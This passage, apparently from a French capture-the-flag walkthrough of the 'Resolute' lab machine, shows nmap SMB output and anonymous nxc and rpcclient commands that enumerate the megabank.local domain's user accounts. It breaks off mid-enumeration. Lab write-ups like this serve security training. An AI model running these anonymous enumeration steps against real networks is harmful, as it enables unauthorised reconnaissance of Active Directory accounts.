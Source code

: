 ```sh
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-03-09T01:52:58
|_  start_date: 2024-03-09T01:42:53
|_clock-skew: mean: 2h47m05s, deviation: 4h37m10s, median: 7m03s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required

```

A travers ces resultats je trouve des choses importants : 

- Le domain `megabank.local`, le Domain Controller `Resolute.megabank.local`
- Le DNS au port 53
- Le Kerberoas au port 88
- Le SMB aux ports 139 et 145
- Le MSPRC au port 135
- Le winrm au port 5985

**Commencons par le SMB**

```sh
└─# nxc smb $ip -u '' -p '' --shares
SMB         10.129.96.155   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.96.155   445    RESOLUTE         [+] megabank.local\: 
SMB         10.129.96.155   445    RESOLUTE         [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

Ici je trouve un user anonyme mais je peux pas lister les shares, Alors...

**Allons vers le MSRPC**

```sh
└─# rpcclient -U '' -N 10.129.96.155
rpcclient $> enumdomains
name:[MEGABANK] idx:[0x0]
name:[Builtin] idx:[0x0]
rpcclient $> 
```
Good, je peux bien enumerer les domaines dans le `rpcclient`, Donc enumerons les informations des utilisateurs avec le `querydispinfo`

```sh
rpcclient $> querydispinfo
index: 0x10b0 RID: 0x19ca acb: 0x00000010 Account: abigail      Name: (null)    Desc: (null)
index: 0xfbc RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0x10b4 RID: 0x19ce acb: 0x00000010 Account: angela       Name: (null)    Desc: (null)
index: 0x10bc RID: 0x19d6 acb: 0x00000010 Account: annette      Name: (null)    Desc: (null)
index: 0x10bd RID: 0x19d7 acb: 0x00000010 Account: annika       Name: (null)    Desc: (null)
index: 0x10b9 RID: 0x19d3 acb: 0x00000010 Account: claire       Name: (null)    Desc: (null)
index: 0x10bf RID: 0x19d9 acb: 0x00000010 Account: claude       Name: (null)    Desc: (null)
index: 0xfbe RID: 0x1f7 acb: 0x00000215 Account: DefaultAccount Name: (null)    Desc: A user account managed by the system.
index: 0x10b5 RID: 0x19cf acb: 0x00000010 Account: felicia      Name: (null)    Desc: (null)
index: 0x10b3 RID: 0x19cd acb: 0x00000010 Account: fred Name: (null)    Desc: (null)
index: 0xfbd RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0x10b6 RID: 0x19d0 acb: 0x00000010 Account: gustavo      Name: (null)    Desc: (null)
index: 0xff4 RID: 0x1f6 acb: 0x00000011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0x10b1 RID: 0x19cb acb: 0x00000010 Account: marcus       Name: (null)    Desc: (null)
```